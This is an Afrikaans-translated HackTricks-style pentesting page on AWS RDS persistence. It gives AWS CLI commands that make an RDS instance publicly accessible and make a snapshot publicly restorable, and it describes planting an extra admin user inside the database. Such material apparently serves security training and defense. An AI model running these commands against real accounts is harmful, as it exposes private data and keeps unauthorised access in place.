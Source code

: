 # AWS - RDS Volharding

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Vir meer inligting, kyk:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Maak instansie publiek toeganklik: `rds:ModifyDBInstance`

'n Aanvaller met hierdie toestemming kan **'n bestaande RDS-instansie wysig om publieke toeganklikheid te aktiveer**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Skep 'n admin gebruiker binne die DB

'n Aanvaller kan eenvoudig **'n gebruiker binne die DB skep** sodat selfs as die meester gebruiker se wagwoord gewysig word, hy **nie die toegang tot die databasis verloor nie**.

### Maak snapshot publiek
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
